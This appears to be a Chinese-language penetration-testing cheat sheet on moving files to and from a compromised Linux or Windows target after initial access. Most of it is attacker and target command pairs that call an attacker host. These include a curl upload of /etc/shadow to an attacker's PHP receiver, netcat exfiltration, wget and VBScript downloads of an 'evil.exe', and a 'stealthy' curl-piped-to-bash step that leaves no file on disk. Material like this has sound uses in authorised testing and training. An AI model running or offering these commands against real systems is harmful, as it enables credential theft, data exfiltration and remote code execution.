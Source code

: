 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Linux文件传输 - Linux File Transfers

## 常规方式

### 利用Python传输：

```bash
// Attacker
python3 -m http.server 8888
```

```bash
// Target
wget http://攻方IP:8888/利用脚本.sh
chmod +x 利用脚本.sh
利用脚本.sh
```

### 利用Apache2传输：

```
// Attacker
1. 准备好upload.php文件，放在/var/www/html目录下；
2. 同时在/var/www/html目录下再创建一个/uploads目录，用于存放稍后从目标系统中传回的敏感文件；
```

```bash
// Target
curl --form "uploadedfile=@/etc/shadow" http://攻方IP/upload.php
```

```php
// upload.php
<?php  
$target_path = "uploads/";
$target_path = $target_path.basename($_FILES['uploadedfile']['name']);

echo "Source=".$_FILES['uploadedfile']['name']."<br/>";
echo "Target path=".$target_path."<br/>";
echo "Size=".$_FILES['uploadedfile']['size']."<br/>";

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)){
	echo "The file".basename($_FILES['uploadedfile']['name'])."has been uploaded";
}else{
	echo "There was an error uploading the file,please try again!"
}

?>
```

### 利用Netcat传输

```bash
// Attacker
nc -lvp 1234 > 传回的文件名 
```

```bash
// Target
nc 攻方IP 1234 < 待传回的文件名
```

### 利用FTP传输

#### 方法1：

```bash
// Attacker
sudo python3 -m pyftpdlib  -p 21 -w
python -m pyftpdlib -p 21
```

```bash
// Target
ftp -A 攻方IP
dir               # 查找要传到目标上的程序，本例为：winPEAS.exe
get winPEAS.exe
bye
```

#### 方法2：

```bash
// Attacker
cp /usr/share/.../nc.exe /ftphome/
systemcrl restart pure-ftpd
```

```bash
// Target
echo open 攻方IP >> ftp.txt
echo USER 用户名 >> ftp.txt
echo 密码 >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

// 执行ftp.txt
ftp -v -n -s:ftp.txt
```

### 利用SCP传输

使用 SCP（Secure Copy Protocol）在 Linux 系统中进行文件传输时，实际上是在通过 SSH 连接进行加密传输。

```bash
// 格式
scp 待传输文件的路径 目标用户命@目标IP:传输后保存的路径
scp /path/to/local/file username@remote_host:/path/to/destination
```

#### 将文件上传到目标主机

```bash
// Attacker
scp example.txt username@remote_host:/home/username/
scp /path/to/local/file username@remote_host:/path/to/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

#### 将目标主机中的文件下载到本地

```bash
// Attacker
scp username@remote_host:/path/to/remote/file /path/to/local/destination
scp username@remote_host:/home/username/example.txt /path/to/local/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

### SCP + SSH

若已经配置了 SSH 密钥认证，则可以免去输入密码的步骤。在执行 SCP 命令时，系统会自动使用 SSH 密钥进行认证。









### 利用SMB客户端传输

前提条件：**已安装smbclient**

```bash
// 格式：
smbclient //server_ip/share_name -U username
```

启动了一个 SMB 服务器，允许其他设备通过 SMB 协议与之通信，并在本地文件系统的当前目录下共享文件（本例为 "liodeus"）：

```bash
// Attacker
sudo smbserver.py -smb2support liodeus .
```

```bash
// Target
smbclient //攻方IP/liodeus -U 用户名
// 连接成功后，查找对应文件，并下载到目标本机中(本例为 "liodeus")：
ls
get liodeus
// 还可以从目标机器里上传文件到攻方SMB服务器：
put 文件名
quit
```

### 利用VBScript传输

该脚本适用于VBScript：Windows XP / Windows 2003&#x20;

该脚本适用于Powershell：Windows 7 / Windows 2008 / 及以上版本

```powershell
// Target
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```powershell
// Target
cscript wget.vbs http://攻方IP/evil.exe evil.exe
```

## 隐蔽方式

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
curl http://攻方IP:8888/利用脚本.sh | bash
```

MEMO：该利用脚本不会被保存在目标系统中
